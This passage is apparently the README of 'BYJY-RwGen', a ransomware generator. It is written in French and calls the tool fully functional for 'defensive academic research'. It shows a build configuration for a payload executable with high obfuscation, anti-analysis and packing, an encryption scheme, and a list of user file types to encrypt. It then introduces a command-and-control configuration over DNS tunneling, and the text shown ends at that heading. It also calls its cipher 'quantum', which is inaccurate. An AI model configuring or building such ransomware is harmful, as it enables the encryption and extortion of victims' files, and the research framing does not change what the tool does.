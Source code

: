 # BYJY-RwGen - Outil Finalisé à 100%
## Configuration Complète pour Recherche Académique Défensive

---

## 🎉 STATUT : OUTIL 100% FONCTIONNEL

L'outil BYJY-RwGen a été entièrement finalisé et configuré pour la recherche académique défensive en cybersécurité.

---

## 📋 FICHIERS DE CONFIGURATION CRÉÉS

### 1. **build_config.json** - Configuration de Build
**Objectif** : Paramètres de compilation et génération du payload

```json
{
  "source_dir": "src",                    // Dossier du code source
  "output_dir": "dist",                   // Dossier de sortie  
  "main_executable": "payload.exe",       // Nom de l'exécutable
  "target_architecture": "x64",           // Architecture (x86/x64)
  
  "obfuscation_level": "high",            // Niveau d'obfuscation
  "enable_anti_analysis": true,           // Anti-analyse activé
  "pack_executable": true,                // Empaquetage activé
  
  "encryption": {
    "algorithm": "xchacha20poly1305",     // Chiffrement quantique
    "key_derivation": "argon2id",         // Dérivation sécurisée
    "iterations": 10                      // Vitesse/Sécurité
  },
  
  "target_extensions": [                  // Fichiers à chiffrer
    ".txt", ".doc", ".docx", ".pdf", 
    ".jpg", ".png", ".mp3", ".mp4"
  ]
}
```

**Impact sur la Recherche** :
- `obfuscation_level: "high"` = Test techniques d'évasion avancées
- `enable_anti_analysis: true` = Évaluation détection sandbox/debugger
- `encryption.algorithm` = Test résistance cryptographique

### 2. **c2_config.json** - Configuration C&C
**Objectif** : Communication Command & Control via DNS tunneling
